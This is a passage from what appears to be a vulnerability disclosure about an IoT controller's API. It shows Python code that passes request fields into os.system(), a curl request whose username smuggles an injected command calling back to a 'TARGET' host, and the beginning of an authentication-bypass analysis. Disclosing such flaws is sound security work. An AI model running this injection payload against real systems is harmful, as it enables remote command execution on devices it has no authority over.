 The first occurrence already looks like vulnerable to command injection. When checking that code snippet we can observe that it is in fact vulnerable:
```python
@app.route("/service/v1/createUser",methods=['POST'])
@token_required
def create_ha_user():
    try:
        devNullFile = open(os.devnull, 'w')
        try:
            reqData = json.loads(request.data.decode())
        except Exception as err:
            return Response(json.dumps({"message": {"ok": 0,"data":"Invalid JSON"}}), 200)
        userpwd = 'useradd '+reqData['username']+' ; echo  "'+reqData['username']+':'+reqData['password']+'" | chpasswd >/dev/null 2>&1'
        #call(['useradd ',reqData['username'],'; echo',userpwd,'| chpasswd'])
        os.system(userpwd)
        call(['usermod','-aG','sudo',reqData['username']],stdout=devNullFile)
    except Exception as err:
        print("err=",err)
        devNullFile.close()
```

We can see how, when calling the **/service/v1/createUser** endpoint, some parameters are directly taken from the POST request body (JSON-formatted) and concatenated to a `os.system()` call. As this concatenation is done without proper sanitization, we can inject arbitrary commands with `;`. The vulnerability is easily confirmed using an HTTP server (`python -m SimpleHTTPServer`) as canary:

```bash
curl https://host/service/v1/createUser -k --data '{"username": ";curl http://TARGET:8000/pwned;#", "password": "test"}' -H "Authorization: Token 47de1a54fa004793b5de9f5949cf8882" -H "Content-Type: application/json"

```

Keep in mind that this method checks for a valid token (see the `@token_required` at line two of the snippet), so we need to be authenticated in order to exploit it. Our next step is to find a way to circumvent this check to get an RCE as an unauthenticated user.

# Authentication bypass via API backdoor (CVE-2020-26879)

The first step to find a bypass would be to check the `token_required` function in order to understand how this "check" is performed:
```python
def token_required(f):
    @wraps(f)
    def wrapper(*args, **kwargs):

        # Localhost Authentication
        if(request.headers.get('X-Real-Ip') == request.headers.get('host')):
            return f()
        # init call
        if(request.path == '/service/init' and request.method == 'POST'):
            return f()
        if(request.path == '/service/upgrade/flow' and request.method == 'POST'):
            return f()

        # N+1 Authentication  
        if "Token " not in request.headers.get('Authorization'):
            print('Auth='+request.headers.get('Authorization'))
            token = crpiot_obj.decrypt(request.headers.get('Authorization'))
            print('Token='+token)
            with open("/VRIOT/ops/scripts/haN1/service_auth") as fileobj:
                auth_code = fileobj.read().rstrip()
            if auth_code == token:
                return f()
```